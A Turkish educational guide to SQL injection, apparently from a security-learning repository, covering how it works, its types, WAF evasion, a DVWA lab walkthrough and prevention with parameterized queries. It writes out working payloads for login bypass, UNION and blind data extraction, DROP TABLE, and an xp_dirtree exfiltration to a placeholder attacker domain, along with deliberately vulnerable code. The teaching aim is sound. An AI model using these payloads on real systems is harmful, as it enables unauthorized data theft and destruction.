

# 💉 SQL Injection (SQLi)

SQL Injection, saldırganın bir uygulamanın veritabanı sorgularına müdahale etmesine izin veren bir enjeksiyon zafiyetidir. En eski, en bilinen ve hâlâ en yıkıcı web zafiyetlerindendir — çünkü doğrudan verinin (kullanıcılar, parolalar, kartlar) kalbine ulaşır.

> Aile bağlamı: [enjeksiyon-aileleri.md](enjeksiyon-aileleri.md) (ortak kök neden). OWASP Top 10:2025: [A05 Injection](../owasp-top10-tam-rehber.md).

---

## 1. Ne? — Mekanizma

Bir uygulama, kullanıcı girdisini **doğrudan bir SQL sorgusuna string olarak yapıştırdığında** SQLi doğar. Veritabanı, "veri" olması gereken girdiyi "kod (sorgu)" olarak yorumlar.

### Zafiyetli kod (kaçınılacak örnek)
```python
# ZAFİYETLİ — girdi doğrudan sorguya yapıştırılıyor
kullanici = request.form['kullanici']
parola = request.form['parola']
sorgu = f"SELECT * FROM users WHERE username = '{kullanici}' AND password = '{parola}'"
db.execute(sorgu)
```

Normal girdi `ali` / `1234` için sorgu:
```sql
SELECT * FROM users WHERE username = 'ali' AND password = '1234'
```

### Saldırı: kimlik doğrulama atlatma
Saldırgan **kullanıcı adı** alanına şunu yazarsa:
```
' OR '1'='1' --
```
Sorgu şuna dönüşür:
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' --' AND password = '...'
```
- `OR '1'='1'` her zaman **doğru** → tüm kullanıcılar döner (genelde ilki = admin).
- `--` SQL yorum işareti → parola kontrolü **devre dışı** kalır.

**Sonuç:** Parola bilmeden giriş. Kod ile verinin karışmasının ders kitabı örneği.

---

## 2. Neden? — Kök neden ve etkisi

**Kök neden:** Uygulama, girdiyi "veri" ile "sorgu yapısı"nı ayırmadan birleştiriyor. Veritabanı motoru için `' OR '1'='1` artık veri değil, mantıksal bir ifade.

**Etki spektrumu (neden bu kadar ciddi):**
- Kimlik doğrulama atlatma (yukarıdaki).
- **Veri sızdırma:** UNION saldırılarıyla başka tabloları okuma (`UNION SELECT username, password FROM users`).
- **Veri değiştirme/silme:** `; DROP TABLE users; --`.
- **Kör (blind) SQLi:** Çıktı görünmese bile, doğru/yanlış cevaplardan (boolean) veya zaman gecikmelerinden (time-based, `SLEEP(5)`) veriyi bit bit çıkarma.
- **RCE'ye tırmanma:** Bazı DB'lerde dosya yazma / komut çalıştırma (`xp_cmdshell`, `INTO OUTFILE`) → tam sunucu ele geçirme.

---

## 3. SQLi türleri

| Tür | Nasıl | Ne zaman |
|-----|-------|----------|
| **In-band (klasik)** | Sonuç doğrudan yanıtta görünür | Error-based, UNION-based |
| **Blind (kör)** | Sonuç görünmez, dolaylı çıkarılır | Boolean-based, Time-based |
| **Out-of-band** | Veri ayrı bir kanaldan (DNS/HTTP) sızdırılır | In-band mümkün olmadığında |



### UNION-based — başka tablodan veri çekme
In-band'ın en güçlü hâli. Uygulama sorgunun sonucunu ekranda gösteriyorsa, `UNION SELECT` ile **kendi seçtiğin** veriyi o çıktıya iliştirirsin. İki koşul gerekir: (1) sütun sayısı eşleşmeli, (2) veri tipleri uyumlu olmalı.
```sql
-- Önce sütun sayısını bul (hata verene kadar artır, ya da ORDER BY ile):
' ORDER BY 3-- -            -- 3 sütun varsa OK, 4'te hata
-- Sonra kendi verini çek (veritabanı adı, kullanıcı, sürüm):
' UNION SELECT null, username, password FROM users-- -
' UNION SELECT null, table_name, null FROM information_schema.tables-- -
```
`information_schema` çoğu veritabanında şema meta verisini (tablo/sütun adları) tutar — saldırgan önce buradan yapıyı keşfeder, sonra hedef tabloyu çeker.

### Blind (kör) SQLi — çıktı görünmediğinde
Uygulama sorgu sonucunu **göstermiyorsa** (sadece "giriş başarılı/başarısız" gibi bir fark varsa) klasik yöntemler çalışmaz. Ama sistemin **davranışından** veriyi bit bit çıkarabilirsin — bu blind SQLi'dir ve neden sistemi anlamanın ezberden üstün olduğunun tipik örneğidir.

- **Boolean-based (koşullu):** Bir koşulun doğru/yanlış olmasına göre sayfanın yanıtı değişir. Koşulu değiştirerek "20 soruda hayvan bulma" gibi veriyi tahmin edersin:
```sql
' AND SUBSTRING((SELECT password FROM users WHERE id=1),1,1)='a'-- -
-- Sayfa "normal" dönerse ilk harf 'a'; "farklı" dönerse değil. Harf harf ilerlersin.
```
- **Time-based (zaman tabanlı):** Yanıt içeriği hiç değişmese bile, veritabanını **kasıtlı bekletir** ve yanıt süresinden çıkarım yaparsın:
```sql
-- MySQL: koşul doğruysa 5 saniye beklet
' AND IF(SUBSTRING(database(),1,1)='s', SLEEP(5), 0)-- -
-- MSSQL: WAITFOR DELAY '0:0:5'   |   PostgreSQL: pg_sleep(5)
```
5 saniye gecikme → koşul doğru. Bu, çıktının hiç görünmediği, hatta hata mesajının bile bastırıldığı durumlarda son çare olduğu için "tam kör (fully blind)" senaryolarda kullanılır. Yavaştır (her bit için ayrı istek) — bu yüzden [sqlmap](#) gibi araçlarla otomatikleştirilir, ama mantığını bilmeden aracın neden çalıştığını anlayamazsın.

### Out-of-band (OOB) — veriyi başka kanaldan sızdırma
Ne çıktı görünür ne davranış değişir, ama veritabanı **dış bağlantı** kurabiliyorsa (DNS/HTTP), saldırgan veriyi kendi sunucusuna sızdırır. Örn. MSSQL/Oracle'da bir DNS sorgusunu tetikleyip veriyi alt alan adına gömme:
```sql
-- Kavramsal: çalınan veri, saldırganın DNS sunucusuna sorgu olarak gider
'; exec master..xp_dirtree '\\'+(SELECT password FROM users WHERE id=1)+'.saldirgan.com\x'-- -
```
Saldırgan `parola123.saldirgan.com` DNS sorgusunu kendi sunucusunda görür → veriyi okur. Bu, [dns-derinlemesine.md](../../01-ag-networking/dns-derinlemesine.md)'deki DNS tünelleme/sızdırma mantığının SQLi'ye uygulanmış hâlidir ve tam kör senaryolarda time-based'den hızlıdır.

### WAF atlatma — temel mantık
Bir WAF ([../web-mimarisi.md](../web-mimarisi.md)) bilinen SQLi kalıplarını (`UNION SELECT`, `OR 1=1`) imzayla engellemeye çalışır. Ama imza tabanlı filtre, **aynı anlama gelen farklı yazımları** yakalamakta zorlanır — bu yüzden tek başına yetmez:
- **Büyük/küçük harf ve boşluk:** `UnIoN SeLeCt`, `UNION/**/SELECT` (yorumla boşluk yerine).
- **Kodlama:** URL-encode, çift URL-encode, Unicode ([../../00-baslangic/bilgisayar-temelleri.md](../../00-baslangic/bilgisayar-temelleri.md) UTF-8 atlatma), hex.
- **Eşdeğer ifadeler:** `OR 1=1` yerine `OR 2>1`, `OR 'a'='a`.
- **Yorumlar:** `UN/**/ION`, satır içi yorumlar.

> **Ders — neden WAF çözüm değil:** Bu atlatmalar, imza tabanlı savunmanın neden bir "katman" olup "çözüm" olmadığını gösterir ([enjeksiyon-aileleri.md](enjeksiyon-aileleri.md) kara liste eleştirisi). Gerçek savunma hâlâ **parametreli sorgudur** — WAF sadece zaman kazandırır. Saldırgan tarafında bu atlatmalar sonsuz; savunma tarafında ise "kara listeyi güçlendirmek" değil, "kod/veriyi ayırmak" doğru yoldur.

---

## 4. Nüans: sık yapılan yanlışlar

- **"Kaçış karakterleri (escaping) yeterli":** Girdideki `'` işaretini `\'` yapmak (manuel escaping) kırılgan ve atlatılabilir (farklı kodlamalar, farklı DB motorları). Gerçek çözüm parametreli sorgudur, manuel escaping değil.
- **"Kara liste (blacklist) filtresi koydum":** `OR`, `UNION`, `--` gibi kelimeleri engellemek atlatılabilir (`UnIoN`, yorumlarla `UN/**/ION`, kodlama). Kara liste enjeksiyonda **temelde yanlış** yaklaşımdır.
- **"ORM kullanıyorum, güvendeyim":** ORM'ler (Hibernate, Django ORM) çoğu durumda güvenli **ama** ham SQL (`raw()`, string birleştirme) kullanıldığında zafiyet geri gelir.
- **Sadece login değil:** Arama kutuları, sıralama parametreleri (`ORDER BY`), filtreler, HTTP başlıkları — girdinin sorguya değdiği **her yer** hedeftir.

---

## 5. Saldırı–savunma kesişimi: PoC senaryosu

**Ortam:** DVWA veya Juice Shop yerel lab ([../pratik-lab/juice-shop-notlari.md](../pratik-lab/juice-shop-notlari.md)).

1. Bir giriş/arama formu bul.
2. Girdiye tek tırnak (`'`) koy → SQL hatası dönerse (500 / "SQL syntax") zafiyet sinyali.
3. `' OR '1'='1' -- ` ile atlatmayı dene.
4. `UNION SELECT` ile sütun sayısını ve veri çekmeyi keşfet.
5. Otomasyon için **sqlmap** (yalnızca izinli hedefte):
   ```bash
   # Yalnızca kendi lab'ında / izinli hedefte!
   sqlmap -u "http://localhost/urun?id=1" --dbs --batch
   ```

**Tek tırnak (`'`) girildiğinde dönen tipik hata** (error-based SQLi sinyali):
```text
You have an error in your SQL syntax; check the manual that corresponds to
your MySQL server version for the right syntax to use near ''' AND password='' at line 1
```
Bu hata, girdinin doğrudan sorguya gittiğinin (parametreleştirilmediğinin) kanıtıdır — tek tırnak sorgunun sözdizimini bozdu. Ardından `' OR '1'='1' -- ` ile giriş "Login successful — Welcome admin" döner. Not: ayrıntılı SQL hatasının kullanıcıya dönmesi ayrıca bir bilgi ifşası zafiyetidir (OWASP 2025 A02/A10 → [../owasp-top10-tam-rehber.md](../owasp-top10-tam-rehber.md)); üretimde hata mesajları gizlenir ama saldırgana da yol gösterir.

---

## 6. Önleme (birincil savunma): parametreli sorgu

**Altın kural:** Girdiyi sorgu **metnine** hiç sokma. Sorgu yapısını sabitle, girdiyi ayrı **parametre** olarak gönder. Veritabanı böylece girdiyi asla "kod" olarak yorumlayamaz.

### Python (parametreli / prepared statement)
```python
# GÜVENLİ — girdi parametre olarak geçer, sorgu yapısına karışmaz
kullanici = request.form['kullanici']
parola = request.form['parola']
db.execute(
    "SELECT * FROM users WHERE username = ? AND password = ?",
    (kullanici, parola),           # parametreler ayrı tuple
)
```
`?` (veya `%s`, `:isim`) yer tutucularıdır; sürücü değerleri güvenli şekilde bağlar (bind). `' OR '1'='1` girdisi artık yalnızca aranan bir **kullanıcı adı stringi** olur, mantıksal ifade değil.

### PHP (PDO)
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$kullanici, $parola]);
```

### Java (PreparedStatement)
```java
PreparedStatement ps = conn.prepareStatement(
    "SELECT * FROM users WHERE username = ? AND password = ?");
ps.setString(1, kullanici);
ps.setString(2, parola);
```

### Katmanlı savunma (defense in depth)
| Katman | Ne yapar |
|--------|----------|
| **Parametreli sorgu / ORM** | Birincil ve zorunlu savunma. |
| **En az ayrıcalık (DB kullanıcısı)** | Uygulama DB hesabı `DROP`/`FILE` yetkisi olmasın → hasar sınırlanır. |
| **Girdi doğrulama (allow-list)** | Beklenen formatı zorla (ör. id sayısal olmalı). |
| **WAF** | Bilinen kalıpları filtreler (yardımcı, tek başına yetmez). |
| **Hata mesajlarını gizle** | Ayrıntılı SQL hatası kullanıcıya dönmesin (error-based SQLi'yi köreltir). |

> ⚠️ **Parolayı asla düz saklama:** Yukarıdaki örneklerde parola karşılaştırması sadeleştirilmiştir. Gerçekte parolalar **Argon2/bcrypt** ile hash'lenir ve sorguda düz parola karşılaştırılmaz → [05-kriptografi/temel-kavramlar.md](../../05-kriptografi/temel-kavramlar.md).

---

## 7. Özet

- **Ne:** Girdinin SQL sorgusuna kod olarak karışması.
- **Neden ciddi:** Doğrudan veritabanına — kimlik atlatma, veri sızdırma, hatta RCE.
- **Birincil savunma:** **Parametreli sorgu (prepared statement)** — tartışmasız, tek gerçek çözüm.
- **Ek katmanlar:** en az ayrıcalık, girdi doğrulama, hata gizleme, WAF.

> **Sonraki:** [xss.md](xss.md).
